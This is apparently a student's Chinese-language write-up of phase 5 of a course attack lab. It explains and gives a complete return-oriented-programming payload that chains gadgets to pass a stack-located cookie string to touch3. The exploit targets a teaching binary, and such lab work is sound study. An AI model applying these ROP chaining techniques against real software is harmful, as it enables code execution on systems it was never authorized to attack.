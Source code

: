 # phase_5:多函数跳转

phase5需要实现phase3的功能,这就需要我们能够定位堆栈,但是由于栈随机初始化的问题,我们没办法向内存中写入固定地址.

因此需要查找提供的众多工具中是否存在可用的函数

```s
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

利用这个函数就可以配合popq写入我们希望的数据了

此外,为了写入rsi,还需要找到rsi的写入顺序,最终发现在 eax->edx->ecx->exi, 另外还需要有堆栈地址,因此也存在 rsp->rax的写入函数,按照这个顺序组织即可

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 # rsp->rax
a2 19 40 00 00 00 00 00 # rax->rdi
cc 19 40 00 00 00 00 00 # popq rax
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00 # eax->edx
34 1a 40 00 00 00 00 00 # edx->ecx
27 1a 40 00 00 00 00 00 # ecx->esi
d6 19 40 00 00 00 00 00 # add_xy
a2 19 40 00 00 00 00 00 # rax->rdi
fa 18 40 00 00 00 00 00 # touch3
35 39 62 39 39 37 66 61 # 59b997fa
00 00 00 00 00 00 00 00 # /0

```

